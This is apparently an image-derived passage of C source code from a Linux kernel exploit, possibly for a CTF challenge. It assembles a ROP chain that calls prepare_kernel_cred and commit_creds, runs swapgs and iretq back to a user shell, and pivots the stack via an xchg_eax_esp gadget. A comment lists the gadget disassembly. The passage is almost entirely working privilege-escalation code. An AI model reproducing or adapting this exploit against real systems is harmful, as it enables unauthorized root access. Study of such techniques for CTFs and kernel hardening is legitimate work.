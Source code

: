 ```c
	fake_stack[start + index++] = prepare_kernel_cred;
	fake_stack[start + index++] = pop_rdx;
	fake_stack[start + index++] = 0;
	fake_stack[start + index++] = mov_rdi_rax;
	fake_stack[start + index++] = commit_creds;
	fake_stack[start + index++] = swapgs;
	fake_stack[start + index++] = 0;
	fake_stack[start + index++] = iretq;
	fake_stack[start + index++] = &shell;
	fake_stack[start + index++] = user_cs;
	fake_stack[start + index++] = user_rflags;
	fake_stack[start + index++] = user_sp;
	fake_stack[start + index++] = user_ss;
    
	*((size_t *)node1.buf)=(size_t)xchg_eax_esp;
	node1.len = 0x8;
	node1.idx = 0;
	edit(&node1);
    
	read(seq_fd, data, 1);
	return 0;
}

/*
ffffffff815b27ca:	48 89 c7             	mov    %rax,%rdi

ffffffff815b27cd:	48 89 d0             	mov    %rdx,%rax

ffffffff815b27d0:	48 83 e0 fc          	and    $0xfffffffffffffffc,%rax

ffffffff815b27d4:	49 89 c0             	mov    %rax,%r8

ffffffff815b27d7:	75 e8                	jne    0xffffffff815b27c1

ffffffff815b27d9:	4c 89 c0             	mov    %r8,%rax

ffffffff815b27dc:	c3                   	retq   



ffffffff81c010bc:	0f 01 f8             	swapgs 

ffffffff81c010bf:	5d                   	pop    %rbp

ffffffff81c010c0:	c3                   	retq 



ffffffff8103a2ab:	48 cf                	iretq  

ffffffff8103a2ad:	5d                   	pop    %rbp

ffffffff8103a2ae:	c3                   	retq 

*/
```
